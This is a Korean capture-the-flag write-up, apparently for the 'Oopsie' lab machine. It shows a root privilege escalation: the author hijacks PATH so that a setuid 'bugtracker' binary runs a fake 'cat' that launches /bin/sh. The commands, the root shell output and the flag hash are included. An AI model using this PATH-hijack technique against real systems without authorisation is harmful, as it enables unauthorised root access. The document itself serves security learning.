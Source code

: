 바이너리 내부에서 `cat`을 사용한다.

**공격 방법**

`bugtracker` 바이너리에는 setuid 비트가 설정되어 있고 owner가 `root`이기 때문에 파일을 실행할 동안에는 `root`권한을 얻게 된다. 즉, 바이너리를 실행하는 동안에 쉘을 딸 수 있으면 `root`권한으로 쉘을 실행할 수 있다.

바이너리 내에서 `cat` 명령어를 실행하는데, `cat`명령은 `PATH` 환경변수를 참고해 실행된다.

&#10071; `PATH`를 수정해 `cat`이 실행될 때 참고하는 경로를 바꿔 임의의 명령어가 실행되게 하면, `cat`이 실행될 때 쉘이 따진다!!

``` bash
$ export PATH=/tmp:$PATH
$ cd /tmp
$ echo '/bin/sh' > cat
$ chmod 777 cat
```

이렇게 하면 `cat`을 실행할 때 `/bin/sh`을 실행하게 되고, `root` 권한으로 쉘이 따졌다!

``` bash
root@oopsie:/usr/bin# bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# id
id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

사용자가 `root`로 바꼈다.

``` sh
# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
# cd /root
cd /root
# ls
reports  root.txt
```

`root.txt`를 읽으면 되는데 안 읽어진다. 왜냐하면 우리가 `cat`을 했을 때 `/tmp`에 있는 `cat(/bin/sh)`을 사용하도록 PATH를 설정해놨기 때문이다.

그래서 PATH에서 `/tmp`를 뺀 원래의 값으로 바꿔주면 된다. 

```sh
# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
# cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```
